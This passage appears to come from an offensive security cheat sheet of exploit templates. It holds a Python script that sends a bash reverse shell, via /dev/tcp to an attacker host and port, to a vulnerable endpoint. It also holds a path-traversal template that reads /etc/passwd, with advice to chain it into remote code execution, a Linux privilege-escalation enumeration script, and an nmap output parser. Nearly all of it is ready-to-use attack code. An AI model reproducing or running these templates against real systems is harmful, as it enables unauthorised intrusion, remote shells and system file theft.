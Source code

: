 ```python
import requests
target = "http://10.10.10.5/vuln"
lhost = "10.10.14.3"
lport = "4444"

cmd = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"
payload = {"cmd": cmd}
requests.post(target, data=payload)
```

***

### XI. ⚙️ Exploit Template — LFI to RCE

```python
import requests

url = "http://target/vuln?file="
file = "../../../../../../etc/passwd"

r = requests.get(url + file)
print(r.text)
```

Combine with `/proc/self/environ` or PHP session inclusion for RCE.

***

### XII. 🧩 Privilege Escalation Automation Skeleton (Linux)

```bash
#!/bin/bash
echo "[+] Starting PrivEsc..."
whoami
sudo -l
find / -perm -4000 2>/dev/null
find / -type f -writable 2>/dev/null
cat /etc/crontab
getcap -r / 2>/dev/null
echo "[+] Done."
```

***

### XIII. ⚡ Exploit Output Parsing Template

```python
import subprocess, re

output = subprocess.check_output("nmap -sV target", shell=True, text=True)
matches = re.findall(r"(\d+)/tcp\s+open\s+(\S+)", output)
for port, service in matches:
    print(f"[+] Port {port} running {service}")
```
